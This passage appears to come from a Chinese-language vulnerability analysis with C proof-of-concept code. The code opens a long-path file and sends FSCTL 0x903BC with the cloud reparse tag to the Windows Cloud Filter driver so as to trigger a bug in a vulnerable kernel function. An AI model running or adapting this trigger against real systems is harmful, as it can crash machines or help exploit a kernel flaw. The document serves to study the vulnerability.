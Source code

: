 ```
ObjectAttributes.RootDirectory = NULL;
ObjectAttributes.SecurityDescriptor = NULL;


```  
  
如上所示，设置参数以通过FSCTL云过滤器(**0x903BC**)并使用标记**0x9000001A(IO_REPARSE_TAG_CLOUD)**到达易受攻击的函数 (**code= 0xC0000018**)。  
```
RtlInitUnicodeString(&objdir,string );

InitializeObjectAttributes(&ObjectAttributes, &objdir, 0, 0, 0);
ObjectAttributes.Attributes = 64;


status = NtCreateFile(&hObject, GENERIC_READ | GENERIC_WRITE, &ObjectAttributes, &IoStatusBlock, 0, 0, 0, 3, 1, 0, 0);
if (!NT_SUCCESS(status)) {
 // Error al llamar a NtCreateFile, imprimir el código de error
 printf("Error al abrir el archivo: 0x%X\n", status);
 return 1;
}
printf("[*] tiggering Bug \n");


unsigned int* control_buffer_2 = (unsigned int*)calloc(1, 0x100);
*control_buffer_2 = 0x9000001A;
control_buffer_2[1] = 0xC0000018;
control_buffer_2[2] = 0x20000;
control_buffer_2[3] = 0x0;
control_buffer_2[4] = 0x4;

 

fnNtFsControlFile(
 hObject,
 0,
 0,
 0,
 &IoStatusBlock_control_file,
 0x903BC,
 control_buffer_2,
 0x100,
 0,
 0);


```  
  
**string** 变量将包含 **长路径**，**RtlInitUnicodeString** 使用Unicode **string** 变量初始化一个 UNICODE_STRING 结构体。然后 **InitializeObjectAttributes** 初始化一个 **OBJECT_ATTRIBUTES** 结构体，该结构体将作为 **NtCreateFile** 的参数使用。  
  